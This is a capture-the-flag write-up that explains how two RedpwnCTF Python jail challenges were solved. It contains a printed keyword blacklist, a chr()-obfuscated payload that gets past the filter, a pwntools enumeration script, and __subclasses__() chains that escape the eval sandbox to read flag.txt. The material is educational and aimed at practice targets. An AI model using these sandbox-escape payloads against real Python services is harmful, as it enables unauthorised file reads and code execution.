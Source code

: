 ```yaml
---
title: RedpwnCTF - Exploiting python eval to escape pyjails
description: Writeup for 2 pyjails challenges exploiting eval function.
categories: python, pyjail
author: Xh4H
tags: python ctf redpwnctf pyjail
---
```


# Introduction
Welcome to this post. I will show how I solved all the python jails challenges (pyjail) from RedpwnCTF.

## genericpyjail

**Challenge description**

When has a blacklist of insecure keywords EVER failed?

nc chall2.2019.redpwn.net 6006

blacklist.txt
```
import
ast
eval
=
pickle
os
subprocess
i love blacklisting words!
input
sys
windows users
print
execfile
hungrybox
builtins
open
most of these are in here just to confuse you
_
dict
[
>
<
:
;
]
exec
hah almost forgot that one
for
@
dir
yah have fun
file
```

**Ready, set, eval!**

Let's test it, ``nc`` to that address.

<div style="text-align:center"><img src="/assets/images/pyjail1.png" /></div>

We are told theres a file called flag.txt. If we try to run ``open`` function it will not work since it is present in the blacklist.

When we send our input, it first gets checked with that blacklist, and if it passed all the checks, it gets evaluated.

After a lot of trial and error, i ended up converting ``int(open("flag.txt", "r").read())`` to the ascii code of each character. Then used chr(number) to convert each ascii code back to the original character. Char by char i built back my initial payload without it being directly present in my input.

```py
chr(105) + chr(110) + chr(116) + chr(40) + chr(111) + chr(112) + chr(101) + chr(110) + chr(40) + chr(39) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116) + chr(39) + chr(44) + chr(32) + chr(39) + chr(114) + chr(39) + chr(41) + chr(46) + chr(114) + chr(101) + chr(97) + chr(100) + chr(40) + chr(41) + chr(41)
``` 

<div style="text-align:center"><img src="/assets/images/pyjail2.png" /></div>

Time to send this to the jail!

<div style="text-align:center"><img src="/assets/images/pyjail3.png" /></div>

Please note how I added the int function in order to make it throw an exception containing the flag. I analyzed this technique in my other post called [Python - Hacking with style - input](https://posts.xh4h.com/python/2019/08/03/input_magic.html).

**flag**: flag{bl4ckl1sts_w0rk_gre3344T!}

## genericpyjail2

**Challenge description**

how unoriginal do you have to be to make two of these

nc chall2.2019.redpwn.net 6007

**Action**

We do not have a blacklist now, but we can't use whitespaces or tabs. And we have a very limited set of builtins. You may be asking how I knew that. I made the following script to analyze builtins:

```py
from pwn import *
import re

r = remote("chall2.2019.redpwn.net", 6007)
r.recvline() # wow! again, there's a file called flag.txt! insane!

def main():
	matches = []
	i = 0
	response = ""
	exc = ""
	while (exc.find("out of range") == -1):
		r.sendline("int(dir(__builtins__)[%d])" % i)
		i = i + 1
		response = r.recvline() # Now it's ...
		exc = r.recvline() # Exception ...
		module = re.search( r"'(\w+)'", exc, re.M|re.I)
		
		if module:
			matches.append(module.group(1))
			print "New match: %s at index %d" % (module.group(1), i)


	print "finished"

	print ", ".join(matches)

try:
	main()
except Exception as e:
	print e
```

This script establishes a connection and sends ``int(dir(__builtins__)[i])`` where ``i`` is a number from zero to infinity until the jail said we where out of range. I used ``dir`` function to list builtins and ``int`` to get the raw exception, again ^^.

The script would then output every single match, and once finished, it would display every single match comma separated. This was useful to know our environment.

<div style="text-align:center"><img src="/assets/images/pyjail4.png" /></div>

There was no interesting function here that would help me with reading files.

I decided to recover deleted functions, yes, that's possible.

Accessing sub-sub-sub-.... modules of an empty tuple ``()`` we can get interesting information. There's a post [here](https://www.floyd.ch/?p=584) that talks about this.

Empty tuples have ``object`` as base class which has a subclass called ``warnings.catch_warnings``, with this we can print to the console (remember that we can't send whitespaces).

This is found here:
```py
().__class__.__base__.__subclasses__()[59]().__module.__builtins__['print'] # returns a function, print
```

With the piece of code above we can print again all modules inside subclasses and we find the following information. 
```py
().__class__.__base__.__subclasses__()[59]()._module.__builtins__['print'](().__class__.__base__.__subclasses__())
```

<div style="text-align:center"><img src="/assets/images/pyjail6.png" /></div>

There is a module of ``type file``. ``open`` function pretty much gets reduced to file, therefore we can read a file with it. It is located in the index 40.

```py
int(().__class__.__base__.__subclasses__()[40]("flag.txt","r").read())
```

Here, again, I used the int() exception :D.

<div style="text-align:center"><img src="/assets/images/pyjail5.png" /></div>

## Notes
### Notes for genericpyjail1
Instead of building a long chain of chr(number), it could have been solved as well by sending a base64 encoded string and decoding it on the fly: ``"base64payload".decode('base64')``.


### Notes for genericpyjail2
Appart from having used ``().__class__.__base__.__subclasses__()[59]()._module.__builtins__['print']`` to print, we could have used one from the builtins we saw, ``raw_input``, by having passed as parameter ``().__class__.__base__.__subclasses__()``. Remember I analyzed this in the post [mentioned earlier](https://posts.xh4h.com/python/2019/08/03/input_magic.html).

<div style="text-align:center"><img src="/assets/images/pyjail7.png" /></div>
Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>
